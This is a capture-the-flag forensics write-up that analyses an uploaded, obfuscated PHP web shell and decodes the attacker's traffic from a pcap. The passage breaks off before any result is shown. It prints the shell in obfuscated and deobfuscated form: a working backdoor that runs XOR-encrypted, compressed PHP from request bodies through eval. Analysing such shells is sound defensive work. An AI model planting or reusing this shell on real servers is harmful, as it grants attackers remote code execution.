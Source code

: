 # Obscure
> Write-up author: vreshco
## DESCRIPTION:
An attacker has found a vulnerability in our web server that allows arbitrary PHP file upload in our Apache server. 
Suchlike, the hacker has uploaded a what seems to be like an obfuscated shell (support.php). 
We monitor our network 24/7 and generate logs from tcpdump (we provided the log file for the period of two minutes before we terminated the HTTP service for investigation), 
however, we need your help in analyzing and identifying commands the attacker wrote to understand what was compromised.
## HINT:
- NONE
## STEPS:
1. Given 3 files, a .pcap file, .php, and a .txt.

> txt

![image](https://user-images.githubusercontent.com/70703371/232369346-54d9b6cd-b188-444b-9b71-0324696bac8d.png)


2. Inside the .txt file is the same as the description, let's check the .php file then.

> php

```php
<?php
$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($';
$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';
$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';
$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}';
$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');
$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';
$u=str_replace('u)','',$V.$d.$P.$c.$B);
$x=$N('',$u);$x();
?>
```

3. To deobfuscate it, we can use [this](https://www.unphp.net/decode/365587cf53459685fac9e018b609a175/) online tool.

> Deobfuscated

```php
<?php function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0;$i < $l;) {
        for ($j = 0;($j < $c && $i < $l);$j++, $i++) {
            $o.= $t{$i} ^ $k{$j};
        }
    }
    return $o;
}
$k = "80e32263";
$kh = "6f8af44abea0";
$kf = "351039f4a7b5";
$p = "0UlYyJHG87EJqEz6";
function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0;$i < $l;) {
        for ($j = 0;($j < $c && $i < $l);$j++, $i++) {
            $o.= $t{$i} ^ $k{$j};
        }
    }
    return $o;
}
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
    @ob_start();
    eval(@gzuncompress(@x(base64_decode($m[1]), $k)));
    $o = @ob_get_contents();
    @ob_end_clean();
    $r = @base64_encode(@x(@gzcompress($o), $k));
    print ("$p$kh$r$kf");
}
```

4. Not a pro in php, but based from this if statement:

![image](https://user-images.githubusercontent.com/70703371/232371190-db69277f-d5f7-4832-91a6-6e2e35c3c76b.png)


5. We know the encoded "string" is between -> 0UlYyJHG87EJqEz66f8af44abea0 [encoded_string] 351039f4a7b5.
6. Feels there's nothing more useful in the script, let's digging the pcap file.

> WIRESHARK

![image](https://user-images.githubusercontent.com/70703371/232371856-8e4bee20-7c6f-4081-92a7-c5b22b9b41d6.png)
 
 
 7. Following the TCP stream we found 1 strings that holds the pattern we found at the php script.

![image](https://user-images.githubusercontent.com/70703371/232372271-eb965890-ecf0-445f-9ad5-7046f7e2b037.png)


8. The encoded strings must be -> `QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy`.
9. Following the TCP stream at 23rd we found similiar pattern.

![image](https://user-images.githubusercontent.com/70703371/232372751-b7c5bb09-5eb8-4aed-9dd3-600c9658b145.png)


10. Let's decode the first one by reversing the deobfuscated script we got before.

> Reversed

```html
<!DOCTYPE html>
<html>
<body>
<?php

$k = "80e32263";
$kh = "6f8af44abea0";
$kf = "351039f4a7b5";
$p = "0UlYyJHG87EJqEz6";

function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0;$i < $l;) {
        for ($j = 0;($j < $c && $i < $l);$j++, $i++) {
            $o.= $t{$i} ^ $k{$j};
        }
    }
    return $o;
}

/*
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
    @ob_start();
    eval(@gzuncompress(@x(base64_decode($m[1]), $k)));
    $o = @ob_get_contents();
    @ob_end_clean();
    $r = @base64_encode(@x(@gzcompress($o), $k));
    print ("$p$kh$r$kf");
}

?>
*/

$input = "QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy";
$decode_base64 = base64_decode($input);
$get_xor = x($decode_base64, $k);
$get_plaintext = gzuncompress($get_xor);
echo "Plaintext -> ".$get_plaintext;

?>

</body>
</html>

```

> RESULT




